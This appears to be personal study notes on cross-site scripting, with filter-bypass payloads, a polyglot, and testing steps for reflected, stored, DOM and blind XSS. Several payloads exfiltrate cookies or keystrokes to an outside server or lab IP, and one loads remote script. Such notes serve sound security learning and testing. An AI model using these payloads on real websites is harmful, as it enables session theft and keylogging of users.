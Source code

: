 
Garrs favorite:
`"><img src=a onerror=alert(34)>`
![[Images/Pasted image 20240723202901.png]]
![[Images/Pasted image 20240723202943.png]]
How does it handle different characters. Is it stripping event handlers but keeping the img tag? Then you could try a simple script-alert-script payload.

---

`<script>alert("Succ3ssful XSS")</script>`
check where the text is reflected, in a tag?, in a string? end those:
`"><script>alert("Succ3ssful XSS")</script>`
in script code already?
`';alert('THM');//`

"script" word removed:
`<sscriptcript>alert('THM');</sscriptcript>`

<> filtered in IMG tag
`/images/cat.jpg" onload="alert('THM')`

Steal cookie - send to your own server to be logged
`<script>fetch('https://myserver.com/steal?cookie=' + btoa(document.cookie));</script>`
`</textarea><script>fetch('http://10.18.21.236:9001?cookie=' + btoa(document.cookie) );</script>`

Key logger - send to your own server to be logged
`<script>document.onkeypress = function(e) { fetch('https://myserver.com/log?key=' + btoa(e.key) );}</script>`

Using the web pages specific functions
`<script>user.changeEmail('attacker@hacker.thm');</script>`

"Polyglot"
``jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e``

**Reflected XSS** - our payload reflected/seen on the webpage/it's code
- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)

![[24e50d95cecfc3783bd1a3a4fecbf310.png]]

**Stored XSS** - our payload is stored on the website (database...)
test every possible point of entry where it seems data is stored
- Comments on a blog
- User profile information
- Website Listings
Test by manually entering data for example instead of the pages drop down menu with numbers..

**DOM Based XSS** - JavaScript execution happens directly in the browser no new pages loaded or data submitted to backend. Execution occurs when the website JavaScript code acts on input or user interaction.
- look for parts of the code that access certain variables that an attacker can have control over, such as "**window.location.x**" parameters
When you've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as **eval()**

**Blind XSS** Stored but you can't see it
- Unfiltered messages sent
- ensure your payload has a call back (usually an HTTP request)




---

cross site scripting

insert javascript code into a website

stored or not, reflected or not



try html injection first - `"><u>test123"` /nahamsec

then try an event handler `<u/onmouseover=alert(1)>test123`
`<img src=x onerror=alert(1)>`

confirm

get your code in here `import('http://site.com/1.js')`

can put xss payload or blind xss payload

---

go through a web page, clicking everything to check what pages exist and what parameters exist, what fields exist..

#### Parameters
try payloads for parameters
url/?page_id=2test123 - is test123 on the page?
view page source or inspect, search for test123
	might end up in html, might be in html...
	if you're in a script tag, just close it: `"></script>test123`
	or for example `?param=2test123"></script>test123<img%20src=x%20onerror=alert();//>`
	or simply `?param=2%27;+alert()//test123`
	check for other empty variables in javascript code and try them as parameters

#### Fields
blog title: Welcome`"><U>test123`
colors for style
even if it is sanitized when entering into the form we can modify the request by capturing it with burp...
if we add a `</style>test123<script>alert()</script>`




### Other examples

```html
<​script/src=//⑮.rs>
<i/oncut​=alert()> (CTRL +X )
<svg/onload​=alert()
```

```html
'<​script>alert(<?php phpinfo() ;? >);<​/script>
```

```html
img/src=x onerror​=/*--*/alert()
```

```html
throw onerror​=alert,1337

throw onerror​=eval,'=alert\x281\x29'
```